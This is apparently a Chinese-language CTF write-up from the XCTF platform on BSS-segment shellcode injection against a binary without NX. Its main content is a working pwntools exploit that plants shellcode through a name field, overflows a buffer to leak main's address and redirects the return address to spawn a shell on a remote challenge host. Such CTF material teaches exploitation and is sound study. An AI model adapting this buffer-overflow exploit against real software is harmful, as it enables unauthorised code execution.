 ### Bss 段注入

话不多说，直接上题（攻防世界）

![](https://pic1.imgdb.cn/item/68091b0258cb8da5c8c6c031.png)

没开 NX

![](https://pic1.imgdb.cn/item/68091bc558cb8da5c8c6c058.png)

![](https://pic1.imgdb.cn/item/685955c858cb8da5c8683c52.png)

上脚本

```python
from pwn import * 

sh = remote('61.147.171.105',61275)

# 通过输入 name 向 BSS 段写入 shellcode
context.arch = 'amd64'
shellcode = asm(shellcraft.sh())

sh.sendlineafter('name :',shellcode)

# 通过输入内容溢出修改控制变量值，泄露 main 地址
num = 3281697
payload = b'A'*0x20 + p64(num)

sh.sendlineafter('input :',payload)
sh.recvuntil('you :\n0x')

main_addr = int(sh.recv(12),16)

# 再次通过输入内容溢出，将函数返回地址改为 shellcode 地址
shellcode_addr = main_addr + 0x202040 - 0xa33
payload2 = b'A'*(0x30+8) + p64(shellcode_addr)

sh.sendlineafter('input :',payload2)
sh.interactive()
```

